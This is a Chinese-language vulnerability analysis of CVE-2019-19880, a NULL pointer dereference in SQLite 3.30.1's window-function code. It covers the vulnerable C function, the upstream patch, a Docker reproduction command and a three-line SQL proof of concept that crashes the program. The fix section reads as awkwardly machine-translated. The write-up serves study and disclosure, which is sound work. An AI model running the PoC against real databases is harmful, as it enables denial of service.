


# CVE-2019-19880 CWE-476 SQLite 空指针解引用

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **CWE-476（ NULL Pointer Dereference）**

## 漏洞原理

 SQLite 在处理窗口函数时，特别是使用常量（如 `ORDER BY 1`）作为排序条件时，未能正确处理常量值，导致在排序和窗口计算过程中可能发生无效内存访问。常量排序可能引发 SQLite 内部状态管理错误，进而导致程序访问已经销毁或无效的内存，从而触发崩溃或未定义行为。

## 漏洞定位

在 src/window.c 文件，第 875 行`exprListAppendList`函数用于将一个表达式列表 (`pAppend`) 中的所有表达式追加到另一个表达式列表 (`pList`) 中，并进行相应的处理。

其中第 885 行调用 `sqlite3ExprDup` 来复制每个表达式并进行修改（如将整数转换为 NULL）后，代码没有进行充分的验证和检查，特别是未检查表达式是否存在内存问题或是否存在 `EP_MemToken` 属性。如果表达式在某些情况下带有 `EP_MemToken` 标志（表示该表达式是由内存分配的，可能已经无效或被销毁），则后续操作可能会导致访问无效内存，从而引发崩溃或未定义行为。

```c
static ExprList *exprListAppendList(
  Parse *pParse,          /* Parsing context */
  ExprList *pList,        /* List to which to append. Might be NULL */
  ExprList *pAppend,      /* List of values to append. Might be NULL */
  int bIntToNull
){
  if( pAppend ){
    int i;
    int nInit = pList ? pList->nExpr : 0;
    for(i=0; i<pAppend->nExpr; i++){
      Expr *pDup = sqlite3ExprDup(pParse->db, pAppend->a[i].pExpr, 0);
      if( bIntToNull && pDup && pDup->op==TK_INTEGER ){
        pDup->op = TK_NULL;
        pDup->flags &= ~(EP_IntValue|EP_IsTrue|EP_IsFalse);
      }
      pList = sqlite3ExprListAppend(pParse, pList, pDup);
      if( pList ) pList->a[nInit+i].sortFlags = pAppend->a[i].sortFlags;
    }
  }
  return pList;
}
```

## 漏洞修复


添加请求： 在呼叫后 `sqlite3ExprDup` 函数,复制的表达式(`pDup`将没有 `EP_MemToken` 旗帜。 如果 `pDup` 不是空的， 而且已经 `EP_MemToken` 属性,程序将触发一个失败的断言并终止执行。

```diff
Index: Expr *pDup = sqlite3ExprDup(pParse->db, pAppend->a[i].pExpr, 0);
==================================================================
--- src/window.c
+++ src/window.c
@@ -893,13 +893,15 @@
   if( pAppend ){
     int i;
     int nInit = pList ? pList->nExpr : 0;
     for(i=0; i<pAppend->nExpr; i++){
       Expr *pDup = sqlite3ExprDup(pParse->db, pAppend->a[i].pExpr, 0);
+      assert( pDup==0 || !ExprHasProperty(pDup, EP_MemToken) );
       if( bIntToNull && pDup && pDup->op==TK_INTEGER ){
         pDup->op = TK_NULL;
         pDup->flags &= ~(EP_IntValue|EP_IsTrue|EP_IsFalse);
+        pDup->u.zToken = 0;
       }
       pList = sqlite3ExprListAppend(pParse, pList, pDup);
       if( pList ) pList->a[nInit+i].sortFlags = pAppend->a[i].sortFlags;
     }
   }

```

## 影响版本


SQLite = 3.30.1

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.30.1，其中在编译时开启了 ASAN 内存检测

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.30.1:*:*:*:*:*:*:*
```



## 漏洞复现

进入容器命令行，执行 PoC 文件，可以看到 ASan 检测到出现了 Segmentation Fault (SEGV) 错误，指示程序试图访问无效内存地址（`0x000000000001`）。

```bash
docker exec -it sqlite-3.30.1 sqlite3 test_db ".read CVE-2019-19880-PoC.sql"
```



## PoC分析

```sql
CREATE TABLE t0(a UNIQUE, b PRIMARY KEY);
CREATE VIEW v0(c) AS SELECT max((SELECT count(a)OVER(ORDER BY 1))) FROM t0;
SELECT c FROM v0 WHERE c BETWEEN 10 AND 20;
```

创建了一个视图 `v0`，该视图的定义是通过一个 `SELECT` 语句计算出一个 `max(count(a))` 值，`count(a)` 是一个窗口函数（`OVER (ORDER BY 1)`）的使用示例。

窗口函数 `count(a) OVER (ORDER BY 1)`，计算了 `a` 列的计数，并按照 `ORDER BY 1`（即按照 `1` 排序）进行排序。由于 `1` 是一个常量整数，这样的排序方式可能在 SQLite 中引发未处理的情况，尤其是在窗口函数处理常量时，可能会导致访问无效的内存区域，从而触发潜在的漏洞。

查询语句从视图 `v0` 中选择 `c` 的值（即 `max(count(a))` 的结果），并将结果限制在 10 和 20 之间。这个查询的目的通常是为了验证视图 `v0` 中的 `c` 值是否处于给定的范围。

## 参考链接


[NVD - CVE-2019-19880](https://nvd.nist.gov/vuln/detail/CVE-2019-19880)

[SQLite: Check-in [1ca0bd982a\]](https://sqlite.org/src/info/1ca0bd982ab1183b)

[SQLite: Check-in [519864da8b\]](https://sqlite.org/src/info/519864da8bb67194)

